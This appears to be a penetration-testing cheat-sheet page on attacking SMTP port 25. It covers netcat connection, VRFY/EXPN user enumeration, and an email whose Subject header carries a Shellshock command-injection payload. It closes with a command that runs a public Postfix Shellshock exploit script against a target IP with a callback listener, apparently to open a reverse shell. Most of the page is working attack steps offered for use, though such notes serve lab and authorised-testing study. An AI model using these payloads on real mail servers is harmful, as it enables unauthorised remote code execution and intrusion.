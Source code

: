 ```yaml
---
description: Mail
---
```


# SMTP 25

### Connection

`nc -C {ip} 25`

### Basic commands

```
VRFY {user} - Check user existence
EXPN {user} - Check if the user belongs to a mailing list
```

### Mail sending

```
mail
mail from:<whatever>
rcpt to:<validemail@mail.server>
data
To: <'validemail@mail.server'>
From: <'validemail@mail.server'>
Subject:() { :; };cmd
.
quit
```

May find a valid email from SMB share `/home/` and `ls`

### Postfix Shellshock (need valid rcpt to email address)

{% embed url="https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py" %}
`python2 ./postfix-shellshock-nc.py 10.11.1.231 useradm@mail.local 192.168.119.179 443`
{% endembed %}
